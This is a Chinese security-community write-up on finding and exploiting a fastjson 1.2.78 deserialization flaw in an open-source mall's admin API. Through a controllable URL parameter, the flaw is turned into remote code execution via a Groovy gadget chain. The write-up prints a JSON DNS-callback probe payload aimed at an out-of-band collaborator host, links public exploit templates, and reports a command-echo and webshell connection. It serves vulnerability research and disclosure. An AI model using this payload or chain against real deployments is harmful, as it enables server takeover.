# 某开源商城后台反序列化漏洞挖掘和利用-先知社区

> **来源**: https://xz.aliyun.com/news/16787  
> **文章ID**: 16787

---

## 漏洞分析

Manager-Api模块中cn.lili.controller.setting.RegionManagerController#synchronizationData方法用于同步高德行政地区数据，其中调用了fastjson的JSONObject.parseObject方法且参数可控。



方法接收一个Stinng类型的参数url，跟进synchronizationData。



68行调用HttpClientUtils.doGet方法执行url，跟进查看。



174行调用apache httpclient.execute执行传入的url，接着判断response是否为200，如果成立则提取响应内容并赋值给resultString后返回。

回到synchronizationData，返回的jsonString在71行传递给this.initData

方法。



跟进this.initData，老生常谈的JSONObject.parseObject功能点。Fastjson组件对应的版本为1.2.78，同时项目中还存在groovy依赖，根据网上已公开的利用链可以RCE。



附上Fastjson姿势技巧集合，感兴趣的伙伴可自行探索。

<https://github.com/safe6Sec/Fastjson>

## **漏洞复现**

整体流程为：前台传入url—>根据url执行请求—>解析请求并获取参数—>参数传入漏洞点。

​

可以控制的地方是：前台传入的url、解析请求并获取的参数。触发漏洞需要的参数来自：解析请求并获取的参数。

​

因此，需要控制返回数据包的内容为fastjson可执行的格式，既然传入的url也是可控的，那只需要保证解析url后返回数据包内容即可。

​

思路：使用python开启http服务，将fastjson可执行的内容写入文件中，访问的url为这个文件路径即可。

​

Python开启server，文件内容如下：

{"@type":"java.net.InetSocketAddress"{"address":,"val":"zorazgd1moa7zoxhv9hfd67osfy6mv.oastify.com"}}

​

继续Debug调试：传入url，跟进doGet。



跟进httpClient.execute方法。





返回response.getEntity内容。







Dnslog成功收到请求。



​

## **漏洞利用**

利用链：Fastjson1.2.78+groovy

​

Goovy利用链的模版：https://github.com/Lonely-night/fastjsonVul，

​

发现第一次反序列化将org.codehaus.groovy.control.ProcessingUnit 加入白名单，第二次反序列化加载自定义的恶意类。



​

只需要把加载恶意类的方法写入GrabAnnotationTransformation2中即可。

​

修改后如下，加载自定义Filter。



​

测试cmd回显成功。



测试冰蝎连接成功。


